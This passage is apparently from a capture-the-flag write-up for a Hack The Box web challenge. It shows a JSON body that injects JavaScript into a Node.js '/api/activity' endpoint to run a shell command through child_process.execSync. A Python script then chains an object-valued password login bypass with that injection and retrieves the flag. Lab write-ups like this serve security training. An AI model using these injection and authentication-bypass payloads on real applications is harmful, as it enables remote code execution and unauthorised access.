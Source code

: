 3. Craft a JSON body for the `/api/activity` endpoint whose `activity` key contains a JavaScript payload that results in a `res` string with proper syntax

```json
{
	"activity": "', m=(global.process.mainModule.require(\"child_process\").execSync(\"cp /flag.txt /app/static/flag.txt\")), c='woo",
	"health": "50",
	"weight": "50",
	"happiness": "50"
}
```

5. Submit the JSON body to the `/api/activity` endpoint
6. Read the flag from `/static/flag.txt`

The following Python executes this strategy.

```python
import requests


target = "134.209.177.202:32763"
with requests.Session() as session:

    # Login
    response = session.post(
        f"http://{target}/api/login",
        json={
            "username": "admin",
            "password": {"password": 1}
        }
    )
    assert response.status_code == 200

    # Send JavaScript injection payload
    response = session.post(
        f"http://{target}/api/activity",
        json={
            "activity": "', m=(global.process.mainModule.require(\"child_process\").execSync(\"cp /flag.txt /app/static/flag.txt\")), c='woo",
            "health": "50",
            "weight": "50",
            "happiness": "50"
        }
    )
    assert response.status_code == 200

    # Grab the flag
    response = session.get(f"http://{target}/static/flag.txt")
    assert response.status_code == 200
    print(response.text)
```

```bash
$ python3 exploit.py
HTB{...}
```

